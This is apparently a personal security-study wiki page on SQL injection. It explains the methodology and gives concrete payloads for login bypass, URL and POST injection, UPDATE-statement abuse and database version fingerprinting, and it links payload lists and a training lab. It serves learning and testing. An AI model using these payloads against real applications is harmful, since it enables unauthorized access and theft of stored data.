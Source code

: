 # SQLInjection

## Introduction

SQL injection is a technique used by attacked to execute malicious SQL statements with objective of stealing information, modifying the database or command execution from the context of database interacting with other networked components. Application commonly require dynamic SQL queries to display content conditionally by user context. Users are then granted some part in the process of displaying that content. This input without input sanitization the attacker can make the database interpret the user input as an SQL input instead of data. With parameter control attack can inject malicious query, which may be executed by the database. For introductory material about SQL see [[Introduction-to-SQL]], if you just here for [[SQLmap-CheatSheet]] then follow the latter link.

For possibly the best hand-on-lab on the internet see [TryHackMe SLQinjections Labs room](https://tryhackme.com/room/sqlilab), it has a good curve to the challenges and has a guidance feature so that in browser you can see what SQL quiery you sent. 

Invaluable Payload up-to-date paylaod listings can be found:
[payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)
[PayloadsAllTheThings/](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

An ode to SQLI:
```poem
title: Sleepy-Questions-Language-Idea 'behind attack=attack -- - 

sqlin' da morning 
sqlin' your evening
admin or one plus one equals two
single quote for strings
enum db char-by-char for those correct
tingles as the database query dumps things
comments breaking stuff on internet
admin password from table * select
database asleep pleasing
SELECT star FROM passwords stealing
by 7ru7h
```


## Methodology
Indication of vulnerablity: 
- variations with use of  `'` which used a string delimiter. 

Databases require instructional commands to store, organise and interact with data. 
1. The requirement is to inject maliformed SQL queries to break the query syntax through a logical mechanism and the sql parser's interpretation of characters external usage in token classification.  
	- The `-` comment  character is recognised as a break from a functionality to interact with database. 
	- Or `'` to indicate the opening of string declaration. The paring functions to consider the following set of character as string continously until otherwise stated. 
2. In breaking the query, access to debug messages or likewise indicated through commanding the server to delay its subsequent response demonstrating control of the server. 
3. If it will `sleep` because a malicious query states such for a specified length of time 
	- Then query may be transformed to the fix its breakage of syntax to 
		- Then query actual information on the database. 
			- [[FFUF-Cheatsheet]] maybe useful in fuzzing fields of the database.
		- Or use the system hosting the database to use the database as storage for further movement with commands to code excution. 

## Use cases for SQLi 

1. Authentication Bypass
1. Enumerating a Database `SELECT <field>, <field> FROM <table> WHERE <field>=`
	1. Column Number Enumeration - With column names or the column indexes instruct database to sort by either, to figure out the width:
		`http://url/bad.ext?<field>=1 order by 1`
	1. Detirmine Output layout - Union statement to control display, for meanful Data extraction
		`union all select 1, 2, <nth, column, width, delimitered, with , comma>`
1. Data Extraction
1. SQLi to Code Execution


#### Characters, Command and Considerations toolset
Always consider the syntax and Database Lanaguage!
MariaDB specifics, but for extensive information for see [[MariaDB-Hacking]]
```sql
;#	-- Ends querys
LIMIT 1	-- Limit number of records returned
```

MSSQL specifics, but for extensive information for see [[MSSQL-Hacking]] 
```mssql

```

MySQL specifics, but for extensive information for see [[MySQL-Cheatsheet]] [[MySQL-Hacking]]
```sql

```

sqlite specifics, but for extensive information for see [[SQLite-Hacking]] [[SQLite-Cheatsheet]]
```sql

```


## Database type enumeration
```sql
MySQL and MSSQL
',INPUT=@@version,INPUT='
# Oracle
',INPUT=(SELECT banner FROM v$version),email='
# For SQLite
',INPUT=sqlite_version(),INPUT='
```

## Defense and Migitation
[Prepared Statements prevent 'illegal' queries](https://en.wikipedia.org/wiki/Prepared_statement)

## Typology 

Attack Vector | Method 
--- | ---
Blind SQLi | Cause SQL error -> Fix it -> add SQL queries && Use sleep(5) if reponse is instant SQL query, then there is no SQLi
Union SQLi |  Find number of columns -> Check suitable columns -> Attack
With non Blind SQLi there is some form of extracted data:
- Cookies
- Field Display in HTML

**BEWARE** Boolean-based Blind injections are tedious and time-consuming, use fuzzing or script
**BEWARE** Nested functionality of i.e Registering a User and then as an Authenicated Users the Username is a SQLi on another section of the website. [[SQLmap-CheatSheet]] may require a tamper script with `--tamper tamper.py` to create a user and then exploit the target page.

## Attack Vectors

#### Input Boxes 

Input Box Non-String - Parameter expects an integer
```sql
1 or 1=1-- -
```

Input Box String- Parameter expects a string
```sql
admin' or '1'='1'-- -
```

#### URL and POST Injection
Consider
```javascript
// Client side controls
function validateform() {
    var profileID = document.inputForm.profileID.value;
    var password = document.inputForm.password.value;

    if (/^[a-zA-Z0-9]*$/.test(profileID) == false || /^[a-zA-Z0-9]*$/.test(password) == false) {
        alert("The input fields cannot contain special characters");
        return false;
    }
    if (profileID == null || password == null) {
        alert("The input fields cannot be empty.");
        return false;
    }
}
```

URL Injection - URL bar in Browser!
```html
<!-- URL shows URL parameters -->
http://website/login?profileID=a&password=a 
<!-- Client Validation bypass, by going directly to URL  -->
http://website/login?profileID=-1' or 1=1-- -&password=a
<!-- URL encode -->
http://website/login?profileID=-1%27%20or%201=1--%20-&password=a 
```

POST Injection - POST request has data 
```html
POST /login <!-- POST request -->
Host: website
...
Referer: website
<!-- Newline goes here, below is the data -->
profileID=-1' or 1=1-- -&password=a
```

#### UPDATE statement
SQLi on UPDATE can modify database **BEWARE**
```html
<!-- html form -->
<input type="text" class="form-control" placeholder "Username" id="username" value="">
...
<input type="text" class="form-control" placeholder "Email" id="email" value="">
...
<input type="text" class="form-control" placeholder "Password" id="password" value="">
```

Enumerate with:
```sql
-- BEWARE this is a template for the above not a payload
-- consider what information the database to frontend pipeline displays
asd',username='test',email='hacked
-- Enumeration is done to gather information of:
-- Correct column names; some might not be visuable, if wrong column names it wont update
-- Then we use these columns to get data back from the database inplace of intend information
-- MySQL and MSSQL
',username=@@version,email='
-- For Oracle
',username=(SELECT banner FROM v$version),email='
-- For SQLite
',username=sqlite_version(),email='
-- Then use targeted database's SQL variant -> tablename -> target table's fields -> data
```




## References
[Prepared Statements Wiki](https://en.wikipedia.org/wiki/Prepared_statement)
[TryHackMe SLQinjections Labs room](https://tryhackme.com/room/sqlilab)
[Computerphile Video](https://www.youtube.com/watch?v=ciNHn38EyRc)
[payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list
[PayloadsAllTheThings/](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
